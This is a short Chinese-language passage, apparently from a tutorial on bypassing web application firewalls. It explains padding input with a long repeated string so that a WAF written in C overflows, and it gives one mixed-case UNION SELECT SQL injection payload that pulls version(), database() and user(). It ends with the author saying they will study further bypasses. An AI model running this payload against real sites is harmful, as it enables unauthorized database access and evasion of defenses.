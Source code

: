 **h. 缓冲区溢出(Advanced)**  
缓冲区溢出用于对付WAF，有不少WAF是C语言写的，而C语言自身没有缓冲区保护机制，因此如果WAF在处理测试向量时超出了其缓冲区长度，就会引发bug从而实现绕过  
举例： 
 
	?id=1 and (select 1)=(Select 0xA*1000)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26  
示例0xA*1000指0xA后面”A"重复1000次，一般来说对应用软件构成缓冲区溢出都需要较大的测试长度，这里1000只做参考，在某些情况下可能不需要这么长也能溢出  
#### 后记
后面还有几种wafbypass，会继续研究的，总觉得时间不怎么够用，毕竟半路出家，前面的苦路还很多。